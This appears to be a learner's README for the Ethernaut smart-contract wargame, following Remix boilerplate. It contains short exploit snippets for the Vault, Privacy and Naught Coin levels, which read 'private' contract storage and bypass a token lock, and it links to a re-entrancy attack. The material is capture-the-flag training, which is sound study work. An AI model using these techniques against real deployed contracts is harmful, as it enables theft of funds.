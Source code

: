 REMIX EXAMPLE PROJECT

Remix example project is present when Remix loads for the very first time or there are no files existing in the File Explorer. 
It contains 3 directories:

1. 'contracts': Holds three contracts with different complexity level, denoted with number prefix in file name.
2. 'scripts': Holds two scripts to deploy a contract. It is explained below.
3. 'tests': Contains one test file for 'Ballot' contract with unit tests in Solidity.

SCRIPTS

The 'scripts' folder contains example async/await scripts for deploying the 'Storage' contract.
For the deployment of any other contract, 'contractName' and 'constructorArgs' should be updated (along with other code if required). 
Scripts have full access to the web3.js and ethers.js libraries.

To run a script, right click on file name in the file explorer and click 'Run'. Remember, Solidity file must already be compiled.

Output from script will appear in remix terminal.

### Vault

https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188

Was solved using just Javascript with the help of 

https://cmichel.io/ethernaut-solutions/

```
await contract.unlock( (
    await web3.eth.getStorageAt(contract.address, 1)
) );
```
### Re-entrancy

https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D

I am not sure I fully get how this worked. The first try, using [ReentranceAttack.sol from Ethernaut](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/attacks/ReentranceAttack.sol), did not work. However, using [Christoph Michel](https://cmichel.io/ethernaut-solutions/) did work. 

I need to study this topic further since it is one that has recently been used (I think with Elephant.money).

Maybe take a look at ... 

* https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
* https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/
* https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742
* https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern


### Privacy

https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B

This one was similar to the Vault, where I needed to access the private value via the `getStorageAt()` function. That part I go right, but I struggled with processing the value correctly. 

```
const keyData = await web3.eth.getStorageAt(contract.address, 5);

// keyData = 0xb301d4297362fcf4a1c2af4cf9d84bbdfcc7b45ad2ab96796b13229669b609aa

const key16 = `${keyData.slice(0, 34)}`

// '0xb301d4297362fcf4a1c2af4cf9d84bbd'

await contract.unlock( key16 )

```

### Gatekeeper Two
_Difficulty 6/10_

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Things that might help:
* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.
* The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.

```
0: uint256: 0
1: uint64: 14006537356739165594
2: uint64: 18446744073709551615
```

### Naught Coin

```
contract.approve(player, (await contract.balanceOf(player)).toString());
contract.transferFrom(player, '0xf332295db2AA2d8A6FDdD4a2C8f342EE40CC2DcC', (await contract.balanceOf(player)).toString());

```